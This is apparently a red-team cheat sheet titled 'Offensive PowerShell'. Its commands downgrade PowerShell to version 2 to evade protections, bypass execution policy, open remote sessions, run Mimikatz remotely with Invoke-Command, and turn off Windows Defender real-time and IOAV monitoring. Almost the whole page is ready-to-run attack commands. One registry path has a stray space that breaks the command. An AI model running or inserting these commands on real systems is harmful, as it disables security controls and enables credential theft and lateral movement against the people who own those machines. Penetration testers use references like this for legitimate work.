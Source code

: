 ```yaml
---
description: >-
  Various commands related to PowerShell usage during penetration tests or red
  team engagements.
---
```


# Offensive PowerShell

#### Enumerate Installed Versions

**Background:** This can be helpful when determining if a PowerShell downgrade attack will work.

```bash
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin e -Name PowerShellVersion).PowerShellVersion
```

If PowerShell 2.0 is installed then we can bypass multiple security protections enabled in more recent PowerShell Version 5 releases:

```bash
powershell.exe -Version 2
```

#### Bypassing Execution Policy

**Information:** Execution policies can be disabled in multiple ways. It is not a sufficient security protection to prevent unsigned scripts from being loaded.

```bash
powershell.exe -exec bypass 
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

#### Creating a PowerShell Session

**Background:** We can establish a persistent connection in PowerShell using Enter-PSSession. This can make life significantly easier and reduce overhead.

```bash
New-PSSession -ComputerName [IP] -Credential [USER]
Enter-PSSession -Session #
```

#### Executing Scripts Remotely

**Background:** We can execute scripts remotely with PowerShell.

```bash
Invoke-Command -Session # -FilePath C:\Users\Parzival\Desktop\Mimikatz.exe
```

#### Bypassing Real-time Monitoring

```bash
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
```
